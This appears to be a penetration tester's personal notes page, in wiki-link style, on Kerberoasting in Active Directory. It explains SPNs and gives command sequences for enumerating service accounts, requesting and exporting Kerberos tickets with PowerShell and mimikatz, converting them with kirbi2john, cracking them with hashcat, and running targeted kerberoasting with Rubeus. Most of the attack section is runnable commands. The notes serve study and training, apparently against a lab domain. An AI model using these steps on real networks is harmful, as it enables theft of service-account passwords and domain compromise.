 -- -
This vector is centered around Service Principal Names (SPN) accounts. SPNs are unique identifiers that Kerberos uses to map a service instance to a service account. Any domain user can (theoretically) request a Kerberos ticket for said SPN as long as in the same domain or if allowed through a trust relationship w/ another domain. 

The Kerberos ticket itself doesn't grant us access to the Service Account, but the ticket is encrypted w/ the Service Account's NTLM Hash, so you can extract this and crack it to get the cleartext password of the Service Account, or run a PassTheHash attack with said hash.

*Note: Obtaining a TGS Ticket from Kerberos does not guarantee you a set of valid credentials as the ticket must be cracked. TGS tickets take longer to crack than say normal NTLM hashes, so if a strong password is used, you may not get a valid set of credentials.*

You can find the original talk that displayed this prominent vector to the world [here](https://www.youtube.com/watch?v=PUyhlN-E5MU)

#### Prereqs 
1. One of the following: 
	- Domain User Credentials 
	- Domain User NTLM Hash
	- A shell in the context of a domain user
	- A SYSTEM shell on domain joined computer
	- A Root shell on a domain joined computer
2. The IP/hostname of a DC we can query.
## Linux
### Impacket
[[Dark Arts/Tools/Active Directory/Impacket/GetUserSPNs]]
![[Dark Arts/Tools/Active Directory/Impacket/GetUserSPNs#^d1421f]]
[[Dark Arts/Tools/Passwords/Hashcat]]
![[Dark Arts/Tools/Passwords/Hashcat#^88073c]]
## Windows
#### PowerView
[[PowerView (depricated)|PowerView]]
![[PowerView (depricated)#^2c6ed0]]
#### "Manual" method
###### On windows box
```powershell
# Dump available SPNs to user you are logged in as
setspn.exe -Q */*

# Request TGs for specific user and dump to memory
# the ArgumentList value is derived from above output
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"

# Request TGS for all SPNs avaialable
# will pull everything, including computer accounts so it's not very efficient
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }

# Dump TGS(s) from memory w/ mimikatz
# should output to file and tell you it's location
mimikatz.exe
base64 /out:true # optional, may make it easier or harder to file transfer depending
kerberos::list /export
```
###### On Linux box
File transfer the export to you Linux box
```bash
# You can crack the kirbi file output if you did NOT use the base64 line above
# Otherwise, you need to get toe base64 blob to your cracking rig and do the following (commands are in bash). The following command will remove new lines and white spaces from the blob leaving a base64 encoded string representation of the .kirbi file.
echo "<base64 blob>" | tr -d \\n

# put string in "encoded_file", then use following line to decode the string
# and output to final .kirbi file
cat encoded_file | base64 -d > sqldev.kirbi

# Download this kirbi2john file:
wget https://raw.githubusercontent.com/nidem/kerberoast/907bf234745fe907cf85f3fd916d1c14ab9d65c0/kirbi2john.py

# run it
python2.7 kirbi2john.py sqldev.kirbi

# format for hashcat
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat

# crack like normal
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlist/rockyou.txt
```

#### Targeted Kerberoast
The vector here is that we have access to an account that can create a fake SPN, we then just use that and another user we want to take control of to launch a kerberoast attack and get their credentials.
**Create Fake SPN**
![[PowerView (depricated)#^ec631e]]
**Kerberoast it**
For other examples, check [[Rubeus|here]]
```pwoershell
.\Rubeus.exe kerberoast /user:<username> /nowrap
```